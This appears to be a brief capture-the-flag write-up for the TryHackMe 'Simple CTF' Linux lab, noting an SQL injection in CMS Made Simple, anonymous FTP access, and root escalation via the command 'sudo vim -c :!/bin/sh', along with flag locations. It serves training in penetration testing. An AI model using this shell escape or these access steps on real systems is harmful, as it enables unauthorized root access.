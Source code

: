 # Simple CTF 🧭
Names | Details
--------|-----
Source | tryhackme 
Level     | Easy
Os |linux

**Notes :**




## Gaining Access 😉

- sql injection found on cmm made simple
- ftp login anonymous



## Maintaining Access 🥷
- sudo -l
- user can run vim without password
	- sudo vim -c ":!/bin/sh"


## Important commands 🔥
- sudo -l
- searchsploit -m 
```
sudo vim -c ':!/bin/sh'
```

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- sudo -l permission
- ftp anonymous login


--------------------------------
**By Nibras Muhammed** 🤓🖥️

